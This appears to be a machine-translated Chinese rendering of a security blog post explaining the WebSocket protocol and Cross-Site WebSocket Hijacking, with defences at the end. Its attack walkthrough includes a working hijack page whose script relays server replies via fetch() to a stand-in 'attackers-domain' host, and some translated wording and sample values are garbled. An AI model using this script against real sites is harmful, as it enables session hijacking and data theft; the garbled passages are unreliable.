






# 跨站点 WebSocket 劫持(CSWSH)

> 原文：<https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc?source=collection_archive---------1----------------------->

了解 WebSocket 攻击的执行！



在我们开始真正的入侵之前，了解什么是 WebSocket 以及 web socket 的不同种类是至关重要的。

大家好！大家好，欢迎来到这个新博客，我们将看看 WebSocket 协议和 CSWSH 漏洞，以及它在开放互联网上有多常见。由于 Vickie Li 的一篇文章，我第一次知道了跨站点 WebSocket 劫持(CSWSH)漏洞。对于那些一直读到最后的读者，我提供了一个 cswsh-scanner 实用程序和资源，您可以用它来测试 WebSocket 应用程序是如何受到危害的。

**让我们先了解一下，什么是 WebSockets？**

在现代 web 应用程序中，WebSockets 是常用的。它们从 HTTP 开始，通过双向异步通信提供持久的连接。

WebSockets 用于各种任务，包括用户交互和敏感数据的传输。普通 HTTP 可能出现的几乎任何 web 安全缺陷也可能出现在 WebSockets 连接中。



[WebSockets](https://portswigger.net/web-security/websockets)

RFC 6455 定义了 WebSocket 协议。该协议有两种 URI 方案:

1.  ws: / host [: port] path [？查询]进行普通连接。
2.  wss: / host [: port] path [？查询 TLS 隧道连接。

WebSockets 在当前的 web 开发中被广泛使用，所有主流编程语言和浏览器都支持它们。在线聊天室、留言板、网络界面和商业应用都使用它。使用搜索引擎 [shodan.io](https://www.shodan.io/) 可以很容易地在互联网上找到 WebSocket 应用。用公式表达一个简单的查询就足够了。

我不是一个懒惰的懒汉，完成了以下任务:

> *搜索 Sec-web socket-Version HTTP/1.1 400 错误请求于 2021 年 8 月 20 日返回* 106，165 *个结果*



Shodan 输出

作为回应，来自世界各地的十万多个地址被发现。

**建立关系**
让我们来看看 WebSocket 的运行情况。握手是客户端和服务器之间通信的第一步。客户端和服务器使用 HTTP 协议进行握手，但是传递的消息的格式略有不同。并非所有 HTTP 消息标准都得到满足。例如，缺少 Content-Length 头。

首先，客户端与服务器建立连接，并发送以下请求:

```
GET /echo HTTP/1.1
Host: localhost:8081
Sec-WebSocket-Version: 13
Origin: http://localhost:8081
Sec-WebSocket-Key: dGhlIHNkaXBsZSBub31jZQ==
Connection: keep-alive, Upgrade
Upgrade: websocket
```

连接:Sec-WebSocket-Version，Sec-WebSocket-Key 升级和升级:WebSocket 头是必须的；否则，服务器将以 HTTP / 1.1 400 错误请求进行响应。下面是服务器如何响应客户端的请求:

```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ3oYGazhZRuK+xOo=
```

客户端生成 Sec-WebSocket-Key 头，作为一个以 Base64 编码的随机 16 字节值。在围棋中，有一个版本的头球阵型:

```
func generateChallengeKey() (string, error) {
  p := make([]byte, 16)
  if _, err := io.ReadFull(rand.Reader, p); err != nil {
    return "", err
  }
  return base64.StdEncoding.EncodeToString(p), nil
}
```

下面的过程用于在响应中创建 Sec-WebSocket-Accept 头。GUID 258 eafa 5-E914–47DA-95CA-C5 ab 0 DC 85 b 11 与 Sec-WebSocket-Key 标头中的字符串值连接在一起。然后使用第一段中的字符串计算 SHA-1 散列。哈希以 Base64 编码。在围棋中，有一个版本的头球阵型:

```
const GUID = "258EAFA5-E914-47DA-95CA-C5AB0DC85B11"
func computeAcceptKey(challengeKey string) string {
  h := sha1.New()
  h.Write([]byte(challengeKey + GUID))
  return base64.StdEncoding.EncodeToString(h.Sum(nil))
}
```

Sec-WebSocket-Key 和 Sec-WebSocket-Accept 标头不用于授权或支持会话；相反，它们确保请求和响应都使用 WebSocket 协议。这确保了服务器不接受来自不使用 WebSockets 的客户端的请求。

RFC 6455 进一步建议为每个连接随机选择 Sec-WebSocket-Key。这意味着任何缓存的代理结果都将有一个无效的 Sec-WebSocket-Accept，导致握手失败，而不是意外读取缓存的数据。客户端验证 Sec-WebSocket-Accept 值，并期待 101 交换协议状态代码完成握手。握手完成后，初始 HTTP 连接被替换为使用相同 TCP / IP 连接的 WebSocket 连接。任何一方都可以在此时开始发送数据。

> 利用 Chrome 中提供的“开发工具”来监控 WebSocket 流量是很方便的。



利用开发工具

**传输数据**
向 WebSocket 发送消息的方法是什么？

数据通过 WebSocket 协议以一系列帧的形式发送。帧的报头包括以下数据:

*   消息是否碎片化；
*   传输数据的种类—所有代码；
*   邮件是否被屏蔽—屏蔽标志；
*   数据大小；
*   屏蔽键(32 位)；
*   其他控制数据(乒，乓…)。

> 下表说明了帧格式。



这表明这是消息中的最后一个片段。第一个
片段也可能是最后一个片段。

要深入了解帧格式，可以参考 [**基础成帧协议**](https://datatracker.ietf.org/doc/html/rfc6455#section-5.2)

客户的信息必须全部隐藏起来。一个“你好，世界！”的例子发送到客户端的文本消息(数据来自 tcpdump):

```
Fin: True
Reserved: 0x0
Opcode: Text (1)
Mask: True
Payload length: 14
Masking-Key: a9292b01
Payload: eaf7f76dcdb2ac6ed0fefx2021
```

屏蔽是通过通常的与屏蔽键的异或来完成的。客户端必须为传输的每个帧更改密钥。服务器不应该屏蔽它的消息。发短信“Hello world！”服务器:

```
Fin: True
Reserved: 0x0
Opcode: Text (1)
Mask: False
Payload length: 14
Payload: 98658c6c7f20776f726c642021
```

因为传输消息的伪装不是加密的，所以 TLS 协议和 WSS 方案应该与 WebSocket 一起使用以保持机密性。

**行动中的漏洞**
既然协议已经弄清楚了，现在是时候继续讨论 CSWSH 了。当处理浏览器时，WebSocket 协议采用了基于起源的安全架构。SOP(同源策略)和其他安全程序不适用于 WebSocket。根据 RFC 6455，服务器可以在建立连接时检查来源或不来源:

> **注意:**客户端握手中的 origin 头元素指示了建立连接的脚本的来源。Origin 改为小写，序列化为 ASCII。当决定是否接受输入连接时，服务器可以使用该信息。如果服务器不检查连接的来源，它将接受来自任何地方的连接。如果服务器拒绝接受连接，它必须返回一个 HTTP 错误代码(例如，403 Forbidden)并终止本节描述的 WebSocket 握手。

CSWSH 缺陷是由于客户端握手中缺少对 Origin 标头的验证或验证不正确造成的。这是跨站点请求伪造(CSRF)漏洞的 WebSocket 特定版本。如果 WebSocket 应用程序使用 cookies 来管理用户会话，攻击者可能会使用 CSRF 攻击伪造握手请求，并操纵通过 WebSocket 连接发送和接收的消息。

然后，黑客的页面可以使用该连接向服务器发送任意消息，并查看收到的消息内容。这意味着，与传统的 CSRF 不同，攻击者可以与受损的应用程序进行双向通信。

通过成功的 CSWSH 攻击，黑客可以:

*   冒充受害者用户执行未经授权的操作。攻击者可以向服务器应用程序发送任意消息，就像普通的 CSRF 一样。如果攻击者利用客户端生成的 WebSocket 消息来完成敏感操作，他可以生成相关的跨域通信并开始这些操作。
*   获取用户有权访问的机密信息。与普通的 CSRF 不同，跨站点 WebSocket 劫持允许攻击者使用受控的 WebSocket 与易受攻击的应用程序进行双向通信。如果应用程序使用服务器生成的 WebSocket 消息向用户返回任何敏感数据，攻击者就可以截获这种通信和受害用户的数据。

**CSWSH 的测试环境**
*以利用易受攻击的应用程序的 CSWSH 攻击为例……………………*WSS:/echo . web socket . org*。以下是进攻策略。*



跨站点 WebSocket 劫持攻击

让我们回顾一下各个阶段，我们将向您展示在每个级别收到的 HTTP 格式的消息。

受害者的浏览器在攻击者的控制下崩溃

```
GET / HTTP/1.1
Host: attackers-domain
User-Agent**:** Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

该网站会向用户发送一个包含恶意内容的页面:

```
HTTP/1.1 200 OK
Host: attackers-domain
Date: Mon, 16 Aug 2021 14:11:09 +0101
Connection: close
X-Powered-By: PHP/7.1.21
Content-type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<body>
  <script>
    websocket = new WebSocket('wss://echo.websocket.org');
    websocket.onopen = start
    websocket.onmessage = handleReply
    function start(event) {
      websocket.send("attackers-message");
    }
    function handleReply(event) {
      fetch('http://attackers-domain/', {method:'POST',mode:'no-cors',body:event.data})
    }
  </script>
</body>
</html>
```

该脚本由受害者的浏览器执行，该浏览器连接到受害者上下文中的 WebSocket 应用程序 ws: /echo.websocket.org，并传递 cookie 值:

```
GET / HTTP/1.1
Host: echo.websocket.org
User-Agent**:** Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: http://attackers-domain
Sec-WebSocket-Key: twWJRgpy7uu5K9RlQCykJQ==
DNT: 1
Connection: keep-alive, Upgrade
Cookie: SESSIONID=bigsecret
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket
```

应用程序启动一个新的与 WebSocketcookie 相关的连接，其头源: [http://attackers-domain](http://attackers-domain) 。SESSIONID=bigsecret:

```
HTTP/1.1 101 Web Socket Protocol Handshake
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: content-type
Access-Control-Allow-Headers: authorization
Access-Control-Allow-Headers: x-websocket-extensions
Access-Control-Allow-Headers: x-websocket-version
Access-Control-Allow-Headers: x-websocket-protocol
Access-Control-Allow-Origin: http://attackers-domain
Connection: Upgrade
Date: Mon, 16 Aug 2021 14:11:09 GMT
Sec-WebSocket-Accept: dLr0PXjy/nj7MF1Isif/PLQLNM0=
Server: Kaazing Gateway
Upgrade: websocket
```

攻击者代表受害者发送攻击者消息，负责 WebSocket 的应用程序发送响应消息。因为我们的应用程序是一个 echo 服务器，所以响应也将是一条攻击者消息。

在该过程结束时，服务器的响应被传输到攻击者控制的域:

```
POST / HTTP/1.1
Host: attackers-domain
User-Agent**:** Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://attackers-domain/
Content-Type: text/plain;charset=UTF-8
Origin: http://attackers-domain
Content-Length: 17
DNT: 1
Connection: close
Pragma: no-cache
Cache-Control: no-cache
attackers-message
```

**防范 CSWSH**
你可以用两种方法来防范 CSWSH:

*   在握手请求中使用单独的随机令牌(例如 CSRF 令牌),并向服务器验证它们；
*   检查服务器上 WebSocket 握手请求的 Origin 头。

有时，但不是通常，CSWSH 保护已经集成到库中。在 Gorilla WebSocket 框架中，CSWSH 保护的实现如下:

```
// checkSameOrigin returns true if the origin is not set or is equal to the request host.
func checkSameOrigin(r *http.Request) bool {
  origin := r.Header["Origin"]
  if len(origin) == 0 {
    return true
  }
  u, err := url.Parse(origin[0])
  if err != nil {
    return false
  }
  return equalASCIIFold(u.Host, r.Host)
}
```

原点检查的默认设置是比较握手请求中主机和原点头的值。

> *感谢您阅读我的帖子；有什么建议请在下面留言:)*

这是我的推特账号 [@N3T_hunt3r](https://twitter.com/n3t_hunt3r?lang=en) 随时联系我。

**cswsh-扫描仪实用程序:**

[](https://github.com/DeepakPawar95/cswsh) [## GitHub - DeepakPawar95/cswsh:用于跨站点 WebSocket 劫持的命令行工具

### 一个命令行工具，旨在测试和连接到一个 WebSocket，这是容易受到跨网站 WebSocket 劫持…

github.com](https://github.com/DeepakPawar95/cswsh) 

**参考/资源:**

[](https://portswigger.net/web-security/websockets) [## WebSockets 安全漏洞测试| Web 安全学院

### 在这一节中，我们将解释如何操作 WebSocket 消息和连接，描述安全的种类…

portswigger.net](https://portswigger.net/web-security/websockets) [](https://appcheck-ng.com/cross-site-hijacking/#) [## WebSocket 安全性-跨站点劫持(CSWSH)

### 在这篇文章中，我们将看看现代 web 应用程序中使用的一种新技术，即…

appcheck-ng.com](https://appcheck-ng.com/cross-site-hijacking/#) [](https://www.scip.ch/en/?labs.20210408) [## 如何处理 WebSockets 安全性

### 迈克尔·施奈德

www.scip.ch](https://www.scip.ch/en/?labs.20210408) [](https://n3t-hunt3r.gitbook.io/pentest-book/web-application-pentesting/cross-site-websocket-hijacking-cswsh) [## 跨站点 WebSocket 劫持(CSWSH)

### WebSocket 连接是通过 HTTP 发起的，并且是典型的。消息可以长时间发送，并且不会…

n3t-hunt3r.gitbook.io](https://n3t-hunt3r.gitbook.io/pentest-book/web-application-pentesting/cross-site-websocket-hijacking-cswsh) 

[Websocket 劫持— YouTube](https://www.youtube.com/watch?v=sysyhbjWmdY)

[使用跨站点 WebSocket 劫持(CSWH)的帐户接管|莎兰·帕内加夫| Medium](https://sharan-panegav.medium.com/account-takeover-using-cross-site-websocket-hijacking-cswh-99cf9cea6c50)